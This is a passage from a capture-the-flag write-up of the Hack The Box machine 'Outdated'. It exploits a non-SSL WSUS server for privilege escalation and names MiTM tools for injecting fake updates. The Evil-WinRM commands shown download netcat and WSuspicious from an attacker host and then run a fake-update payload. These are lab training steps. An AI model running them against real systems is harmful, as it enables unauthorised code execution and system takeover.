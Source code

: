 
We're part of the group `WSUS Administrators` which is interestings, if WSUS is the privesc vector it would surely match the box name Outdated, lets dig deeper here.

Reading about compromizing WSUS we find:
_"You can compromise the system if the updates are not requested using http**S** but http . And if `HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer` is equals to `1`, the it is exploitable."_

```powershell
*Evil-WinRM* PS C:\WSUS\WsusContent> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    http://wsus.outdated.htb:8530

*Evil-WinRM* PS C:\WSUS\WsusContent> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate\AU
    UseWUServer    REG_DWORD    0x1
```

Both requirements are met! To exploit we can use tools such as [WSuspicious](https://github.com/GoSecure/WSuspicious), [Wsuxploit](https://github.com/pimps/wsuxploit) or [pyWSUS](https://github.com/GoSecure/pywsus), which are MiTM exploit scripts to inject fake updates into non-SSL WSUS traffic.

Trying to compile WSuspicious I'm missing the packages `ILMerge` and `Titanium.Web.Proxy`, add nuget package source and update to match all requirements.
**NOTE:** This tool will lead to a dead-end and later (Step 3) I will find another tool that works

![[/assets/images/htb-writeup-outdated/outdated03.png]]

Compile the project and transfer the binary to Kali attacking machine.


### Step 2
Upload the binaries needed for the attack:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/nc64.exe -o C:\Windows\Tasks\nc64.exe
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/WSuspicious.exe -o C:\Windows\Tasks\WSuspicious.exe
```

Running WSuspicious we get the and error that `PsExec64.exe` is not found:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> .\ws.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
ws.exe : 
    + CategoryInfo          : NotSpecified: (:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Unhandled Exception: System.IO.FileNotFoundException: Could not find file 'C:\Windows\Tasks\PsExec64.exe'.
```

Uploading the needed binary and try again:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> .\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
Listening on 'ExplicitProxyEndPoint' endpoint at Ip 127.0.0.1 and port: 13337
Hit any key to exit..

*Evil-WinRM* PS C:\Windows\Tasks> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/22/2022   7:55 AM          45272 nc64.exe
-a----         8/3/2022   4:19 PM         514472 PsExec64.exe
-a----        8/22/2022  11:12 AM           2666 rootCert.pfx
-a----        8/22/2022  11:11 AM        4548096 WSuspicious.exe
```